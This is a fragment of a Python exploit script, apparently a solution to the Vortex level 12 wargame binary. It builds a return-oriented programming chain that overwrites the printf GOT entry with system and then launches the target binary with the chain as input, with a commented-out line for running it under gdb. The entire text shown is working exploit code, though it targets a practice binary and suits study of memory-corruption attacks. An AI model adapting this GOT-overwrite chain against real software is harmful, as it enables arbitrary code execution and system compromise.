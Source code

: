 ```python
    # Replace 'printf' GOT entry with 'system'
    arb_write(rop, SYSTEM, elf.got['printf'], NOP)

    # JMP EAX infinite loop
    rop.raw(POP_EAX)
    rop.raw(JMP_EAX)
    rop.raw(JMP_EAX)
    return rop


def main():
    rop = gen_rop()
    # print(hexdump(rop))
    # os.execl('/bin/gdb', 'gdb', "--args", "/vortex/vortex12", rop.chain())
    os.execl('/vortex/vortex12', 'vortex12', rop.chain())


if __name__ == '__main__':
    main()
```
